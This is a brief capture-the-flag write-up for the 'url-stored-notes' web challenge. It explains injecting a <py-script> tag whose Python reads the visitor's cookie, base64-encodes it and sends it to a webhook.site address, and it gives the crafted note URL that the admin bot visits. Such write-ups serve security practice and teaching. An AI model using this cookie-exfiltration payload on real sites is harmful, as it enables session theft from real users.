 # url-stored-notes (web)

There is an admin bot with a flag cookie, we want to steal.
To do this, we use the `<py-script>` tag (https://docs.pyscript.net/latest/tutorials/getting-started.html) to run the following Python code:

```py
import base64

cookie = js.document.cookie
encoded = base64.b64encode(cookie.encode('utf8')).decode('utf8')
print(encoded)

from pyodide.http import open_url
open_url("https://webhook.site/05fbedac-c57d-481e-8154-d03080ea9858/" + encoded)
```

When visiting this node, it extracts the visitor's cookies and sends them to our webhook.
The note URL is http://url-stored-notes.chals.damctf.xyz/#/Td6WFoAAATm1rRGAgAhARYAAAB0L+Wj4AEwAN5dAC2ewEcDz40ozKl1G8Hi7NGQkjZaXlysiSlg5ZT9Rjsjhpnk7LR0yc4GybDNMvgz8IEhumU7h6mFWr6IC5e1djENJ4VIDZ5hKQeQP0/cOO/nmyXoeP3UbVVFQXo2QK8RmA//n61WopaMGORiQlgmkjnID8gouJm8nPMac3z0vdSRS/4m6G4od8O8Ag33kcyDr3uNrlFvhBvURz0UBKss9nGw7otein6PQ2TiuRTw643Ywkloa7PgASaxFMM3cgT6iDCHNd5BlVt+vxX01U43V6mquZxnzVdYe+6xulZZgAAAAHOt//oA6MXOAAH6AbECAACDOnbsscRn+wIAAAAABFla which we make the bot visit to get the flag.
